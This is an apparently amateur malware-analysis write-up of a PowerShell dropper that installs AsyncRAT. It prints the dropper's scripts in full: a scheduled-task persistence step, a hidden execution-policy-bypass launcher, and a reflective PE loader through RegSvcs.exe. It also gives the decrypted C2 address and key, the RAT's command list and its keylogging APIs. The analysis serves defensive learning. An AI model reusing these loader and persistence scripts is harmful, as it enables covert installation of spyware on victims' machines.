






# Writeup

Sample obtained from Malware Bazaar (http://bazaar.abuse.ch)

SHA256: 10882cb1fc5cfdf37b2bb6ea6ea9189f39ae8f0889eac96866cb72e3ea4e4b3c

## 1. Initial Analysis

This sample was tagged as powershell in malware bazaar, using `file` on the sample shows that it is a unicode text file with very long lines.

Opening the sample with a text editor shows that it is indeed a powershell script.

A brief scan of the file shows that it is not very obfuscated, the powershell commands are clearly readable.

I'll split the file into different sections to examine what it does.

### 1.1 Section 1

```
$a = "C:\ProgramData\PDF"

New-Item $a -ItemType Directory -Force

Sleep 1

$Content = @'

try 
{
&'schtasks.exe' '/create' '/sc' 'minute' '/mo' 1 '/tn' 'PDF' '/tr' (('C:\ProgramData\PDF\PDF.vbs'));

} catch { }
'@
[IO.File]::WriteAllText("C:\ProgramData\PDF\x.ps1", $Content)
```

`$a` is a variable to a directory and its followed by a `New-Item` command which created the directory specified in `$a`. It then sleeps for 1 second.

`$Content` contains a string of a try-catch statement which runs `schtasks.exe` with a few arguments.

Referring to the MSDN documentation for schtasks, the command creates a task which will run `PDF.vbs` once every minute. 

This command is then written to a powershell script file `x.ps1`.

### 1.2 Section 2
```
$Content = @'

on error resume next
WScript.Sleep 10000

set A = CreateObject("WScript.Shell")
A.run "C:\ProgramData\PDF\1.bat",0
'@
[IO.File]::WriteAllText("C:\ProgramData\PDF\PDF.vbs", $Content)
```
`$Content` now contains a string of Visual Basic script which creates a shell file with the command to run a batch file `1.bat`. It will sleep for 10000 milliseconds if there is any error.

This will be written to a visual basic script file `PDF.vbs`.

### 1.3 Section 3
```
$Content = @'
SET !A=E
CMD /C POW%!A%RSHELL -NOP -WIND HIDDEN -eXEC BYPASS -NONI "C:\ProgramData\PDF\PDF.ps1"

'@
[IO.File]::WriteAllText("C:\ProgramData\PDF\1.bat", $Content)
```
This section contains an obfuscated command which will run `PDF.ps1` with the arguments of no profile, hidden window, execution policy bypass and non interactive.

This is saved to `1.bat`.

### 1.4 Section 4
```
$Content = @'

Try{

function xxx {

param($app1)$app1 = $app1 -split '(..)' | ? { $_ }

ForEach ($UX2 in $app1)
{
[Convert]::ToInt32($UX2,16)
}
}
[Byte[]] $xxx = xxx $code

[byte[]] $apprun  = xxx('[Long Hex Value Here]')
}catch{}


Try{

[byte[]] $appme  = xxx '[Long Hex Value Here]'


$RLD = 'Get'
$EYJ = $RLD + 'Method'
$RUK = 'Invoke'
$RLD = $RLD + 'Type'
$KST = 'Load'
$USW = [Reflection.Assembly]
$KSW = $USW::$KST($apprun)
$KSW = $KSW.$RLD('NewPE2.PE')
$KSW = $KSW.$EYJ('Execute')
$EYJn = 'C:\Windows\Mic'
$WNA = $EYJn + 'rosoft.NET\Fr'
$KRE = $WNA + 'amework\v4.0'
$KRW = $KRE + '.30319\'
$XQ = $KRW + 'RegSvcs.exe'
}catch{}

return $KSW = $KSW.$RUK($null,[object[]] ($XQ,$appme));


'@
[IO.File]::WriteAllText("C:\ProgramData\PDF\PDF.ps1", $Content)
```

This section contains 2 long strings of hex values which I have removed to keep the section readable.

The 2 strings of hex values both start with `4D5A` which is the magic bytes for a Windows executable.

The scripts first defines a function named `xxx` which converts the hex values into integers.

The script will then call the function `xxx` for each of the long hex strings which will be stored in `$apprun` and `$appme`

The large chunk of random variable names will be combined into a single command in `$KSW`
```
$KSW = [Reflection.Assembly]::Load($apprun).GetType('NewPE2.PE').GetMethod('Execute').Invoke($null,[object[]] ('C:\Windows\Microsoft.NET\Framework\v4.0.30319\RegSvcs.exe',$appme));
```

From this command, it looks like the file in `$apprun` is loaded, the method `Execute` is invoked with the parameters `C:\Windows\Microsoft.NET\Framework\v4.0.30319\RegSvcs.exe` and `$appme`. 

It is most likely trying to install the file in `$appme` with `RegSvcs.exe`.

### 1.5 Execution Flow

Sample File -> x.ps1 -> PDF.vbs -> 1.bat -> PDF.ps1 -> RegSvcs.exe -> $appme


## 2. Analysing the two PE Files
Since the 2 hex strings contain the Windows executable magic bytes it it safe to assume that they could hold more information.

Saving the 2 hex strings into files may reveal more information on them by examining them in PE tools.

Opening the files with PEBear, it reveals that `$apprun` has the name of `NewPE2` and `$appme` has the name of `AsyncClient`. It also reveals that they are .NET applications.

Using dnSpy to decompile both files, I can see that the C# file names are all obfuscated.

Since NewPE2 is only used to execute AsyncClient, I'll analyse AsyncClient first as it might be the one with malicious features.

### 2.1 Obfuscation and Encryption of strings

Looking through the .cs files, I see a cs file `UlcLQNnwpyCSvG.cs` which contains a few base64 strings. Decoding them reveals nothing much but looking at function `aBtYsZVKqNBKsdH()`, it attempts to decode a variable `lCtjzbfwwBsJfAP` which contains a base64 string `WnY2N0RLc0NSMFhxWHZxY1BKZmZpTFF3a0xIdkNMVzI=`.

Decoding this variable returns `Zv67DKsCR0XqXvqcPJffiLQwkLHvCLW2`. Looking at the next line, it creates an object of class `aCxoBnREKNRVLP` with the string as a parameter. Looking at the class file for `aCxoBnREKNRVLP`, I see that it implements AES and HMACSHA256. 

In the contructor, the string is being used as a master key with a salt to generate bytes to be used as AES and HMACSHA256 keys.

`Master Key = Zv67DKsCR0XqXvqcPJffiLQwkLHvCLW2`

It seems that the base64 encoded strings are encrypted with AES. Using the masterkey and running the decryption function inside the class in a seperate C# program, the output of the base64 strings are:

```
Format: variableName = value

aLqjjhrltCC = 4001

UbmXsyJAbCA = 195.178.120.137

ttQueqpBgd = | Edit 3LOSH RAT

BWzbMAexXM = false

NVEHRCdmwuec = AsyncMutex_6SI8OkPnk

eMAhvgDFrENgjAO = MIIE8jCCAtqgAwIBAgIQAPeWQ4YJ3MvReCGwLzn7rTANBgkqhkiG9w0BAQ0FADAaMRgwFgYDVQQDDA9Bc3luY1JBVCBTZXJ2ZXIwIBcNMjIwNDI1MDA0MTA5WhgPOTk5OTEyMzEyMzU5NTlaMBoxGDAWBgNVBAMMD0FzeW5jUkFUIFNlcnZlcjCCAiIwDQYJKoZIhvcNAQEBBQADggIPADCCAgoCggIBAKT9nYYTjYTZhY+g1tekZ8/F29gsEIDgf/8odvCbCmYKGGZZi2yND9NjtBXEMANM9PAXCyMapGvapDPbWgjYkLiMw/Vwa3kZRg7kLpXMpzInLQufe7Q587viilcsGDoVXmnf51/SwsKPjSysZUpyayezUlJ1j6aXkZGnasiqJ7iKANdSneQducOn6IwaEuJBmpXKWxhhq8R9JMfiWeOXL/hXoE/wCzwzvU/CrzPXd3uMsLfFMDHZJ+OQ9OXKU/CHZNCgSPs4VSgCgM4eK0YTbu1mLsWSo5th3/ingNFaTyYmGsmLIE2Jq5AR1A+xA+FEdC8zKL1bAwYQcRgIJs7QdedtAIufepPZ9D5HiOiy3ITYVonqwTiiIm20en7UICt+J8iDb4M2Q2iLWA7Yi9PN2cr0Xrs8A4/RL29Qe5Ly2k35i74RiBTiT7Jbl2r7PcYlUGcjTCbdB9PWt3dYaTysuamoq2Zuo2HVRhhoZpwnajS9vNcjuZCYVoQvUQBUnHTeRZrtHXU5JV59ZBlu7flZneMZnbrWXTxob6Bdt8+hrGoSDMWBFcO4jRzhT3hEFUpu4lSFeb9T3Vx4KWkHJhHtMvHuYgDTXERdEcI00sOUbVxgd/62LhGXNNommQKCyiAGj0V5uLD73Fyw8vJpm3jXf3NgNt/CjnlaMc40DJ+HlXE5AgMBAAGjMjAwMB0GA1UdDgQWBBQsT2WvtxGUK29SWs4sHz1xYye0fzAPBgNVHRMBAf8EBTADAQH/MA0GCSqGSIb3DQEBDQUAA4ICAQCK5sVfnYyT5MqnCg3uHV2ojf12fIVFCY02Cc7gy3DVoE6/xZCPjr22V/xZunZ7DG1nt0kOJKDwdQYnGoMc5UPh8jbNRoc1ojLOCaluaIYQyl8AGkmUSRA3Ltk0XetDescffrWT/nKuRvIEYU4Ra+B39f8ouGMCa7VXaxnGJ0z0BkUie8KsDLgNmJ7/kVfIYuRxl+YefoCsUTCogqf0fu3DuRHBpUVaSQQOf9YCbvFWH7Nupc3UIwpH5D8kSdpKusEfbRp8nfWN/Fm+lzF3THeHU6vNJ+5UoAWHYFW8wfJCbzQ/0L8QZeOv4uy74oQP2Ed0RdrWCwUL6SSsDPZdDEOy4K4vVYkDTl1nL5tleATguELAEbbT42oLce85z4C7sKvpEfa4DPbU55xBLwvHniILFfjB7VVsrgVckUL/lEf4Y92uJVKvLGruQt/mtKSqIuJjD8T9y7RIsk6g9624egV5UtLtv+36kLKhgIJlqC7Xx/PVwMc2yw8BiQlvxQZgqSd1k7QmV1AhV/3z2wqnYmb09ibTMYaMFjtamFegeFqc4jRLABhVQFEFv8z5E6G9vgKn5mQDWS/JykARBv9o2BjL/PTADfwAtc1b4nWo0l+CI8IjjYXu/mJOuwR+kFJ19INtwbffQvT9U12t4smpcZV+OK0opk4Yr9r1tZYm92ghXA==

PpbWStuKJskD = fLSEKvPGghXlmAR5S5/6KVFRgsghXP2u4/r8gMudG4EQogBoj1weNb+Mg86FXmHX2he40xZ8B0sHssXO12sAGGqVowp43hYe5Y2QfAWGVM+HsB9O625O0KDnZZ4X/V34tL5nJfPwwu3szSyTp76E6X47TFJuWLJ75cwpG7PVKnXhtwMfED3Gh9MHpazD3uZZlIZxJ7pJZQEPEZBU37dNijXQ3As4wgB/+ywh/s96FCmvxo+JhPcbdwh+KygDGp4lizylMRKwIY18zH4AjrEBJU0uz8eE/5MCJcWA2L3LE9agyH8We+K81NzbgQMzuujzgkiU6oCiuLy2yV3x1xNLD0y1KTkmzVjYx50gO7kCibwnqTrE6uVRm7yMX2wU5ZT4dJDVRDLqnVXxmfpCRbCJ56dZbzDqV8khhMjnYtYS6ySBuXAgN4rzLguT1ToKIso2L0j61Ep8guwWVs7cpuN7vpLOgXHl6n0EUP5iDEXkSwJgvh/IWNFWYWAb3CbECWEqBOL3g91EipUUWqa5peMLR6fFaCrGtN9sdvoJY4sl74f7FpECGggXLDMlOLwCWOityORf44BNd2f61JOZQu0ZB2vtdwBUUJuNtgzOMVjES1gawh7mpnN+YSjMqixLMGzbtDJqZJE3KzxvSfImzXoWEcy3aV3Bz+OQo/MxozaRN3M=

mZvCorTKLzUSebw = false

OOUWxFvTgFcgtq = true

fDjAFQdunVnQ = null

SBwABVopfBoZ = false

gXzoHsiwNNs = Default
```

The first 2 values could be a C2 server. Searching the third value, `3LOSH RAT`, online shows that it is a crypter and is related to AsyncRat.

`AsyncMutex_6SI8OkPnk` could be a mutex to prevent multiple copies of itself from running.

Decoding the first base64 string shows a jumble of text but there is a string `AsyncRAT Server` this further confirms that this is AsyncRAT.

## 3. Persistence Mechanism
There are functions that create persistence by creating a scheduled task on logon, adding itself to the registry's run folder and creating a batch file that will start the program before deleting itself.

However, looking at the main function, it checks for the boolean value of 
`BWzbMAexXM` which is one of the encrypted strings. And it resolves to false which means these persistence features will not be run. 

This is possibly due to the persistence already being implemented by the `PDF.vbs` file already being scheduled to run every minute.

## 4. Data Collection
There are functions that check for cryptocurrency wallets present on the victim computer.

### 4.1 Commands from C2 server
There is also a function that checks if a string is equal to strings like
```
getscreen
uacoff
killps
ResetHosts
weburl
Chrome
plugin
ResetScale
passload
Wallets
Fox
pong
DicordTokens
setxt
WDExclusion
KillProxy
Net35
klget
Avast
Block
WebBroswerPass
gettxt
anydesk
backrpoxy
```
These could be commands received from a C2 server to extract information or modify settings.

### 4.2 Keylogging
There is also a function with references to Windwos API such as 
```
SetWindowsHookEx
UNhookWindowsHookEx
CallNextHookEx
GetModuleHandle
GetForegroundWindow
GetWindowThreadProcessId
Getkeystate
GetKeyboardState
getKeyboardLayout
ToUnicodeEx
MapVirtualKey
```
There is also references to keyboard modifiers such as
```
LControlKey
Capital
Space
Escape
RShiftKey
Return
Back
Tab
LShiftK4y
RControlKey
```
There is also a path variable to `Environment.GetEnvironmentVariable("Temp") + "\\Log.tmp"`

All these indicate keylogging features.


### 4.3 Exfiltration of Data
The sample uses SSL to connect to the C2 server and sends the collected data compressed by Gzip. It also recieves commands from C2 through the same SSL connection.


## 5. Running the sample

Upon execution of the sample, the files are created in the `PDF` folder inside `C:\ProgramData\`



`PDF.vbs` is added to the scheduled task to run


Task Scheduler View


Process Explorer showing the `PDF.vbs` running the `1.bat` which then runs `PDF.ps1`


The final `Regsvcs.exe` running


When the vbs script runs again due to the task scheduler, it will spawn another `Regsvcs.exe`. However, the newly spawned copy will exit if there is an existing instance present. This is probaby the Mutex found in the encrypted strings earlier.

Mutex = `AsyncMutex_6SI8OkPnk`




In TCPView, Regsvcs.exe creates an outbound connection to the IP and port found via the AES decryption earlier.
```
195.178.120.137:4001
```






## 6. Conclusion
In conclusion, this sample is a powershell script which will drop a persistent remote access trojan onto the victim PC which will extract information and send it to a C2 server. It can also receive commands from the C2 server.

### 6.1 Inicators of Compromise
1. Outbound connection to `195.178.120.137:4001` from `Regsvcs.exe`
2. `C:\ProgramFiles\PDF` folder which contains batch, powershell and visual basic scripts
3. Scheduled Task to run `PDF.vbs` every minute

## 7. Note
This is my basic analysis on a sample i found on malware bazaar for me to practice malware analysis. These findings will not be 100% accurate and I will defintely miss out some things. If I did something wrongly or missed something, feel free to correct me as I do want to know what I did wrong so that I can improve.


